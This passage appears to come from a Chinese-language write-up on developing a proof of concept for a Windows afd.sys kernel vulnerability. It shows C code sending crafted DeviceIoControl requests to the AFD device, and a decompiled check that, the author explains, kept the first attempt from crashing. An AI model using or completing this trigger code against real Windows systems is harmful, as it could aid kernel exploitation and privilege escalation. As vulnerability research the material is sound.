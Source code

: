 ```
    DWORD field1; 
    DWORD field2; 
    DWORD field3; 
    DWORD field4; 
    DWORD field5; 
    DWORD field6; 
} INPUT_AfdTransmitPackets; 
 
int main() 
{ 
    DWORD bytesRet; 
 
    INPUT_AfdTransmitFile InputAfdTransmitFile = {0}; 
    memset(&InputAfdTransmitFile, 0, sizeof(INPUT_AfdTransmitFile)); 
    InputAfdTransmitFile.field7 = 0x13371337; 
    InputAfdTransmitFile.field8 = 0x15fcd9; 
    InputAfdTransmitFile.field11 = 1; 
 
    INPUT_AfdTransmitPackets InputAfdTransmitPackets = {0}; 
    memset(&InputAfdTransmitPackets, 0, sizeof(INPUT_AfdTransmitPackets)); 
    InputAfdTransmitPackets.field1 = 1; 
    InputAfdTransmitPackets.field2 = 0x0aaaaaaa; 
 
    LPCSTR deviceStr = "\\\\?\\GLOBALROOT\\Device\\Afd"; 
    HANDLE hDevice = CreateFile( deviceStr, \ 
            GENERIC_READ | GENERIC_WRITE | GENERIC_EXECUTE, \ 
            FILE_SHARE_READ, \ 
            NULL, OPEN_EXISTING, FILE_ATTRIBUTE_NORMAL, NULL); 
 
    DeviceIoControl((HANDLE)hDevice, 0X1207F, (LPVOID)&InputAfdTransmitFile, \ 
            sizeof(INPUT_AfdTransmitFile), NULL, 0, &bytesRet, NULL); 
    DeviceIoControl((HANDLE)hDevice, 0X120C3, (LPVOID)&InputAfdTransmitPackets, \ 
            sizeof(INPUT_AfdTransmitPackets), NULL, 0, &bytesRet, NULL); 
 
    return 0; 
} 
```

测试发现，并不能触发崩溃，通过上面漏洞的成因， 分别在 afd!AfdTransmitFile 与 afd!AfdTransmitPackets 下断点进一步分析，最终发现是在 afd!AfdTransmitPackets 中如下检查未通过导致的：

```
FsContext = (unsigned __int8 *)a2->FileObject->FsContext; 
v56 = FsContext; 
v3 = *(_WORD *)FsContext; 
if ( *(_WORD *)FsContext == 0x1AFD ) 
{ 
  v66 = STATUS_INVALID_PARAMETER_12; 
  goto LABEL_148; 
} 
if ( v3 != (__int16)0xAFD2 <--- 这里的检查未通过导致直接调到函数结尾 
  && (v3 != (__int16)0xAFD1 || (*((_DWORD *)FsContext + 2) & 0x200) == 0 && (*((_DWORD *)FsContext + 3) & 0x8000) == 0) 
  || FsContext[2] != 4 )
```
